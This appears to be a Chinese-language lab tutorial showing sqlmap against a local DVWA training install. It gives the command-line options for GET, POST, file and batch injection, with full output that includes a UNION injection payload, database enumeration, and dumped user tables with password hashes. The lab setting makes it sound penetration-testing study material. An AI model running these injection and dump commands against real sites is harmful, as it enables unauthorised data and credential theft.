









# sqlmap

## python与sqlmap安装
>https://www.python.org/  仅限安装 version 2.6.x and 2.7.x on any platform
>https://github.com/sqlmapproject/sqlmap  

## python与sqlmap配置


#DVWA

## DVWA环境搭建
[官网](http://dvwa.co.uk/)   
[github源码](https://github.com/ethicalhack3r/DVWA)

## DVWA配置


## sql注入加cookie检测



```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4"

//成功溢出如下

[11:17:22] [INFO] testing connection to the target URL
[11:17:22] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[11:17:22] [INFO] testing if the target URL is stable
[11:17:23] [INFO] target URL is stable
[11:17:23] [INFO] testing if GET parameter 'id' is dynamic
[11:17:23] [WARNING] GET parameter 'id' does not appear to be dynamic
[11:17:23] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[11:17:23] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting attacks
[11:17:23] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[11:17:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:17:45] [WARNING] reflective value(s) found and filtering out
[11:17:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:17:48] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:17:49] [INFO] target URL appears to have 2 columns in query
[11:17:49] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[11:17:49] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 77 HTTP(s) requests:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:17:53] [INFO] testing MySQL
[11:17:53] [INFO] confirming MySQL
[11:17:53] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL >= 5.0.0
[11:17:53] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

[*] shutting down at 11:17:53

```

## 以文件方式注入检测



```PHP
sqlmap.py -r E:\cmk\gtiwork\mysql\fn\sqlmap\testsqlmapbyFile.txt

//成功溢出如下

[11:27:08] [INFO] parsing HTTP request from 'E:\cmk\gtiwork\mysql\fn\sqlmap\testsqlmapbyFile.txt'
[11:27:08] [INFO] resuming back-end DBMS 'mysql'
[11:27:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:27:08] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:27:08] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

[*] shutting down at 11:27:08

```

## 获取数据库

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --dbs

//成功溢出如下

[11:32:13] [INFO] resuming back-end DBMS 'mysql'
[11:32:13] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:32:13] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:32:13] [INFO] fetching database names
available databases [48]:
[*] bak
[*] ccms
[*] dijie-dev
[*] dvwa
[*] firekylin
[*] information_schema
[*] lcm
[*] mysql
[*] nawanr
[*] operator
[*] weixin
[*] yii2-start
[*] yii2-starter-kit
[*] yii2-starter-kit_dev
[*] yii2_rbac
[*] yii2_test
[*] yii2basic
[*] yiisns

[11:32:14] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

[*] shutting down at 11:32:14
```

## 获取当前所有表数据

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --dump

//成功溢出如下

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:34:47

[11:34:47] [INFO] resuming back-end DBMS 'mysql'
[11:34:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:34:47] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:34:47] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:34:47] [INFO] fetching current database
[11:34:48] [WARNING] reflective value(s) found and filtering out
[11:34:48] [INFO] fetching tables for database: 'dvwa'
[11:34:48] [INFO] fetching columns for table 'users' in database 'dvwa'
[11:34:48] [INFO] fetching entries for table 'users' in database 'dvwa'
[11:34:48] [INFO] analyzing table dump for possible password hashes
[11:34:48] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: dvwa
Table: users
[5 entries]
+---------+--------------------------------------------------+---------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | avatar                                           | user    | password                         | last_name | first_name | last_login          | failed_login |
+---------+--------------------------------------------------+---------+----------------------------------+-----------+------------+---------------------+--------------+
| 1       | http://127.0.0.1/dvwa/hackable/users/admin.jpg   | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2017-09-11 10:49:31 | 0            |
| 2       | http://127.0.0.1/dvwa/hackable/users/gordonb.jpg | gordonb | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2017-09-11 10:49:31 | 0            |
| 3       | http://127.0.0.1/dvwa/hackable/users/1337.jpg    | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2017-09-11 10:49:31 | 0            |
| 4       | http://127.0.0.1/dvwa/hackable/users/pablo.jpg   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2017-09-11 10:49:31 | 0            |
| 5       | http://127.0.0.1/dvwa/hackable/users/smithy.jpg  | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2017-09-11 10:49:31 | 0            |
+---------+--------------------------------------------------+---------+----------------------------------+-----------+------------+---------------------+--------------+

[11:34:56] [INFO] table 'dvwa.users' dumped to CSV file 'C:\Users\cmk\.sqlmap\output\127.0.0.1\dump\dvwa\users.csv'
[11:34:56] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
[11:34:56] [INFO] fetching entries for table 'guestbook' in database 'dvwa'
[11:34:56] [INFO] analyzing table dump for possible password hashes
Database: dvwa
Table: guestbook
[1 entry]
+------------+------+-------------------------+
| comment_id | name | comment                 |
+------------+------+-------------------------+
| 1          | test | This is a test comment. |
+------------+------+-------------------------+

[11:34:56] [INFO] table 'dvwa.guestbook' dumped to CSV file 'C:\Users\cmk\.sqlmap\output\127.0.0.1\dump\dvwa\guestbook.csv'
[11:34:56] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'
```

## 选择指定的数据库并导出

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" -D ccms --dump
```

## 选择指定的表
```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" -D ccms --dump -T adver

//成功溢出如下

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:42:06

[11:42:06] [INFO] resuming back-end DBMS 'mysql'
[11:42:06] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:42:07] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL 5
[11:42:07] [INFO] fetching columns for table 'adver' in database 'ccms'
[11:42:07] [INFO] fetching entries for table 'adver' in database 'ccms'
[11:42:07] [INFO] analyzing table dump for possible password hashes
Database: ccms
Table: adver
[5 entries]
+----------+-------------+-------------+------+---------------+--------+---------+----------------------------------------+----------------------------------+------------+---------------------+---------------------+
| adver_id | language_id | category_id | sort | link          | status | remark  | thumb_pic                              | source_pic                       | adver_name | create_date         | update_date         |
+----------+-------------+-------------+------+---------------+--------+---------+----------------------------------------+----------------------------------+------------+---------------------+---------------------+
| 1        | 1           | 1122222     | 0    | www.baidu.com | 1      | ????    | NULL                                   | /Uploads/adver/56a483909bc2a.png | ????x      | NULL                | 2016-01-24 15:56:00 |
| 2        | 1           | 12          | 0    | NULL          | 1      | NULL    | NULL                                   | NULL                             | ??????     | NULL                | NULL                |
| 4        | 1           | 11          | 0    | <blank>       | 1      | <blank> | /uploads/adver/56af3d6fdb595_thumb.png | /uploads/adver/56af3d6fdb595.png | xxxyccc    | 2016-02-01 18:44:42 | 2016-02-01 19:11:43 |
| 5        | 1           | 11          | 0    | <blank>       | 1      | <blank> | /uploads/adver/56af3daa2661a_thumb.png | /uploads/adver/56af3daa2661a.png | yyy        | 2016-02-01 18:46:58 | 2016-02-01 19:12:42 |
| 6        | 1           | 11          | 0    | <blank>       | 1      | <blank> | /uploads/adver/56af3aae0c55c_thumb.png | /uploads/adver/56af3aae0c55c.png | eeee       | 2016-02-01 18:49:03 | 2016-02-01 18:59:58 |
+----------+-------------+-------------+------+---------------+--------+---------+----------------------------------------+----------------------------------+------------+---------------------+---------------------+

[11:42:07] [INFO] table 'ccms.adver' dumped to CSV file 'C:\Users\cmk\.sqlmap\output\127.0.0.1\dump\ccms\adver.csv'
[11:42:07] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

```

## post注入



```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/xss_s/" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --data="txtName=111&mtxMessage=222&btnSign=Sign+Guestbook" --dbs

//成功溢出如下

[11:48:29] [INFO] testing connection to the target URL
[11:48:29] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[11:48:29] [INFO] testing if the target URL is stable
[11:48:30] [WARNING] target URL is not stable. sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison' and provide a string or regular expression to match on
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] C
[11:48:44] [INFO] testing if POST parameter 'txtName' is dynamic
[11:48:44] [WARNING] POST parameter 'txtName' does not appear to be dynamic
[11:48:44] [WARNING] heuristic (basic) test shows that POST parameter 'txtName' might not be injectable
[11:48:44] [INFO] heuristic (XSS) test shows that POST parameter 'txtName' might be vulnerable to cross-site scripting attacks
[11:48:44] [INFO] testing for SQL injection on POST parameter 'txtName'
[11:48:44] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:48:44] [WARNING] reflective value(s) found and filtering out
[11:48:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:48:45] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
[11:48:48] [WARNING] POST parameter 'txtName' does not seem to be injectable
[11:48:48] [INFO] testing if POST parameter 'mtxMessage' is dynamic
[11:48:48] [INFO] confirming that POST parameter 'mtxMessage' is dynamic
[11:48:48] [INFO] POST parameter 'mtxMessage' is dynamic
[11:48:48] [WARNING] heuristic (basic) test shows that POST parameter 'mtxMessage' might not be injectable
[11:48:48] [INFO] heuristic (XSS) test shows that POST parameter 'mtxMessage' might be vulnerable to cross-site scripting attacks
[11:48:48] [INFO] testing for SQL injection on POST parameter 'mtxMessage'
[11:48:48] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:48:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:48:53] [WARNING] POST parameter 'mtxMessage' does not seem to be injectable
[11:48:53] [INFO] testing if POST parameter 'btnSign' is dynamic
[11:48:53] [INFO] confirming that POST parameter 'btnSign' is dynamic
[11:48:53] [INFO] POST parameter 'btnSign' is dynamic
[11:48:53] [WARNING] heuristic (basic) test shows that POST parameter 'btnSign' might not be injectable
[11:48:53] [INFO] testing for SQL injection on POST parameter 'btnSign'
[11:48:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:48:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:48:57] [WARNING] POST parameter 'btnSign' does not seem to be injectable
[11:48:57] [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')
```
**成功注入后截图 **




## 忽略老提示

```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/xss_s/" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4" --data="txtName=111&mtxMessage=222&btnSign=Sign+Guestbook" --dbs --batch --smart
```

## 批量处理以文件形式注入
>演示GET和POST的操作放入文本

```php
sqlmap.py -l E:\cmk\gtiwork\mysql\fn\sqlmap\batchFileInject.txt --batch  --smart

//成功溢出如下

[14:58:06] [INFO] sqlmap parsed 1 (parameter unique) requests from the targets list ready to be tested
URL 1:
GET http://127.0.0.1:82/dvwa/vulnerabilities/xss_s/
Cookie: security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4
POST data: txtName=111&mtxMessage=222&btnSign=Sign%20Guestbook
do you want to test this URL? [Y/n/q]
> Y
[14:58:06] [INFO] testing URL 'http://127.0.0.1:82/dvwa/vulnerabilities/xss_s/'
[14:58:06] [INFO] using 'C:\Users\cmk\.sqlmap\output\results-09112017_0258pm.csv' as the CSV results file in multiple targets mode
[14:58:06] [INFO] testing connection to the target URL
[14:58:06] [INFO] testing if the target URL is stable
[14:58:07] [WARNING] target URL is not stable. sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison' and provide a string or regular expression to match on
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] C
[14:58:07] [INFO] testing if POST parameter 'txtName' is dynamic
[14:58:07] [WARNING] POST parameter 'txtName' does not appear to be dynamic
[14:58:07] [WARNING] heuristic (basic) test shows that POST parameter 'txtName' might not be injectable
[14:58:07] [INFO] heuristic (XSS) test shows that POST parameter 'txtName' might be vulnerable to cross-site scripting attacks
[14:58:07] [INFO] skipping POST parameter 'txtName'
[14:58:07] [INFO] testing if POST parameter 'mtxMessage' is dynamic
[14:58:07] [INFO] confirming that POST parameter 'mtxMessage' is dynamic
[14:58:07] [INFO] POST parameter 'mtxMessage' is dynamic
[14:58:07] [WARNING] reflective value(s) found and filtering out
[14:58:08] [WARNING] heuristic (basic) test shows that POST parameter 'mtxMessage' might not be injectable
[14:58:08] [INFO] heuristic (XSS) test shows that POST parameter 'mtxMessage' might be vulnerable to cross-site scripting attacks
[14:58:08] [INFO] skipping POST parameter 'mtxMessage'
[14:58:08] [INFO] testing if POST parameter 'btnSign' is dynamic
[14:58:08] [INFO] confirming that POST parameter 'btnSign' is dynamic
[14:58:08] [INFO] POST parameter 'btnSign' is dynamic
[14:58:08] [WARNING] heuristic (basic) test shows that POST parameter 'btnSign' might not be injectable
[14:58:08] [INFO] skipping POST parameter 'btnSign'
